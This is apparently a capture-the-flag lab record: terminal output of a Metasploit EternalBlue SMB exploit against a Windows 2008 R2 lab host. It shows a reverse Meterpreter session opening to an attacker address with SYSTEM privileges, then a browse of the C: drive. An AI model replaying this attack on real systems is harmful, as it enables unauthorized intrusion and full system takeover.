 ```
[+] 10.0.29.76:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.0.29.76:445 - Sending final SMBv2 buffers.
[*] 10.0.29.76:445 - Sending last fragment of exploit packet!
[*] 10.0.29.76:445 - Receiving response from exploit packet
[+] 10.0.29.76:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.0.29.76:445 - Sending egg to corrupted connection.
[*] 10.0.29.76:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.0.29.76
[+] 10.0.29.76:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.29.76:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.29.76:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.29.76:49386 ) at 2023-05-06 18:59:48 +0530

meterpreter > sysinfo
Computer        : VAGRANT-2008R2
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd /
meterpreter > pwd
C:\
meterpreter > ls
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2009-07-14 08:04:39 +0530  $Recycle.Bin
100444/r--r--r--  8192    fil   2021-10-28 21:41:09 +0530  BOOTSECT.BAK
040777/rwxrwxrwx  4096    dir   2021-10-28 21:41:09 +0530  Boot
040777/rwxrwxrwx  0       dir   2009-07-14 10:36:44 +0530  Documents and Settings
040777/rwxrwxrwx  0       dir   2009-07-14 08:50:08 +0530  PerfLogs
040555/r-xr-xr-x  4096    dir   2021-11-02 00:14:05 +0530  Program Files
040555/r-xr-xr-x  4096    dir   2021-10-28 19:54:25 +0530  Program Files (x86)
040777/rwxrwxrwx  4096    dir   2021-11-02 00:20:44 +0530  ProgramData
040777/rwxrwxrwx  0       dir   2021-10-28 20:42:46 +0530  Recovery
040777/rwxrwxrwx  4096    dir   2021-10-28 20:01:16 +0530  RubyDevKit
040777/rwxrwxrwx  4096    dir   2021-10-28 20:41:52 +0530  System Volume Information
040555/r-xr-xr-x  4096    dir   2021-10-28 19:52:30 +0530  Users
040777/rwxrwxrwx  16384   dir   2021-11-02 00:21:12 +0530  Windows
100444/r--r--r--  383786  fil   2010-11-21 08:54:02 +0530  bootmgr
040777/rwxrwxrwx  0       dir   2021-10-28 19:58:42 +0530  glassfish
040777/rwxrwxrwx  0       dir   2021-10-28 19:52:09 +0530  inetpub
100666/rw-rw-rw-  0       fil   2021-10-28 20:08:20 +0530  jack_of_diamonds.png
040777/rwxrwxrwx  0       dir   2021-10-28 20:00:42 +0530  openjdk6
000000/---------  0       fif   1970-01-01 05:30:00 +0530  pagefile.sys
040777/rwxrwxrwx  0       dir   2021-10-28 20:08:24 +0530  startup
040777/rwxrwxrwx  0       dir   2021-10-28 20:00:57 +0530  tools
040777/rwxrwxrwx  4096    dir   2021-10-28 20:00:10 +0530  wamp

meterpreter > cd w
cd Windows\\  cd wamp\\     
meterpreter > cd wamp\\
meterpreter > ls
Listing: C:\wamp
```